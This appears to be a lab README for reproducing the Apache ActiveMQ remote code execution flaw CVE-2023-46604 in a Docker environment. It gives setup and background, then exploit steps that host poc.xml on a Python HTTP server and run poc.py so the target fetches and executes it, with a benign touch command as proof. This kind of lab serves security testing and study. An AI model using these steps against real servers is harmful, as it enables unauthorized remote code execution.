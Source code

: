 # Apache ActiveMQ (Version < 5.18.3) RCE （CVE-2023-46604）

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker compose up -d
```

The environment listens to port 61616 and port 8161, of which 61616 is the working port. In this vulnerability exploitation, we only need to use port 61616. When executing the vulnerability verification process, please first access port 8161 to confirm that the service has started successfully.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

Apache ActiveMQ has a remote code execution vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

## Exploit

You can quickly start an HTTP server in the folder where the poc.xml file is located using the Python3 http.server module

```shell
python3 -m http.server 6666
```

execute poc.py

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

docker exec cve-2023-46604-activemq-1 ls -l /tmp

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)
